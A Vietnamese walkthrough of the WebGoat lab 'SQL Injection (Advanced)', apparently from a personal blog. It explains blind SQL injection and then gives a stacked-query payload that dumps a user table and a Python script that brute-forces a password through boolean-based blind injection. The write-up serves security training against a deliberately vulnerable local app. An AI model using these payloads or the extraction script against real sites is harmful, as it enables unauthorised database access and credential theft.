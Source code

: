 ```yaml
---
title: "(A3) SQL Injection - SQL Injection (Advanced) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Advanced)"
date: "21-3-2024"
id: "11"
---
```


- **Blind SQL** injection là một phương pháp tấn công vào các ứng dụng web thông qua việc lợi dụng lỗ hổng bảo mật trong việc xử lý cơ sở dữ liệu SQL. Trong kiểu tấn công này, kẻ tấn công cố gắng chèn các câu lệnh SQL vào các trường dữ liệu đầu vào của ứng dụng web để thực hiện các hành động không được ủy quyền hoặc thu thập thông tin từ cơ sở dữ liệu.
- Trong trường hợp blind SQL injection, kẻ tấn công không nhận được bất kỳ phản hồi trực tiếp nào từ hệ thống sau khi thực hiện một yêu cầu tấn công. Thay vào đó, họ phải dựa vào các biểu hiện gián tiếp từ hệ thống để suy luận thông tin về cơ sở dữ liệu.

- Cụ thể, kẻ tấn công có thể sử dụng các kỹ thuật như "boolean-based blind SQL injection" hoặc "time-based blind SQL injection". Trong boolean-based blind SQL injection, kẻ tấn công thực hiện các truy vấn SQL dựa trên các điều kiện logic và suy luận thông tin dựa trên câu trả lời đúng/sai từ hệ thống. Trong time-based blind SQL injection, kẻ tấn công thực hiện các truy vấn có thời gian chạy lâu hơn và suy luận thông tin dựa trên thời gian phản hồi từ hệ thống.
- Các hậu quả của blind SQL injection có thể rất nghiêm trọng, bao gồm việc lợi dụng quyền truy cập không được ủy quyền vào cơ sở dữ liệu, thu thập thông tin nhạy cảm hoặc thậm chí kiểm soát hoàn toàn hệ thống. Để ngăn chặn blind SQL injection, các nhà phát triển web cần chú ý đến việc kiểm tra và xử lý đúng các đầu vào người dùng, sử dụng các phương pháp an toàn trong việc truy xuất cơ sở dữ liệu như Prepared Statements hoặc ORM (Object-Relational Mapping), và thường xuyên cập nhật và kiểm tra mã nguồn để phát hiện và khắc phục các lỗ hổng bảo mật.

## 1. Try It! Pulling data from other tables

- Đề bài yêu cầu lấy tất cả dữ liệu của bảng `user_system_data` và lấy mật khẩu của Dave.
- Nhập câu lệnh sau vào ô Name là nhấn Get Account Info:

```json
'; SELECT * FROM user_system_data;--
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H46_ya1wem.png)

- Ta code thể thấy được mật khẩu của Dave là `passW0rD`, dán mật khẩu vào ô Password và nhấn Check Password là xong:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H47_fcgm3n.png)

## 2. Login

- Ta đăng kí một tài khoản với Username là: `tom' AND substring(password, 1, 1)='t`, ta có thể suy ra trong password của Tom có một chữ là `t`:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H48_fs50vr.png)

- Ta chạy chương trình Python sau gửi request để kiểm tra tất cả mật khẩu có thể có, thay đổi session_id tương ứng trên trình duyệt của bạn:

```python
import json,requests

def main():
    url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
    webgoat_session_id = "0qexwJ47oTLOrGtzuYKYogZvulhhHESl-HYq07E1"
    header = {
        "Cookie": "JSESSIONID=" + webgoat_session_id,
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": "http://localhost:8080/WebGoat/start.mvc",
        "Origin": "http://localhost:8080",
        "Host": "localhost:8080",
        "Content-Length": "126",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\"",
        "Accept": "*/*",
        "Connection": "keep-alive",
        "X-Requested-With": "XMLHttpRequest",
        "sec-ch-ua-mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36",
        "sec-ch-ua-platform": "macOS",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Dest": "empty",
        "Accept-Language": "en-US,en;q=0.9",
        "Accept-Encoding": "gzip, deflate",
    }
    password = ""
    for length in range(1, 25):
        for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            params = "username_reg=tom'+AND+substring(password%2C1%2C" + str(
                length) + ")%3D'" + password + letter + "&email_reg=test%40test.test&password_reg=test&confirm_password_reg=test"
            r = requests.put(url, headers=header, data=params)
            if "already exists" in r.text:
                password += letter
                print(password)
                break
            else:
                continue
    print("")
    print("")
    print("Password found: " + password)

if __name__ == "__main__":
    main()
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H49_tax4nz.png)

- Chạy sẽ hơn lâu, ta tìm được mật khẩu là `thisisasecretfortomonly`. Ta đăng nhập với Username là Tom và mật khẩu vừa tìm được:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H50_rbviid.png)
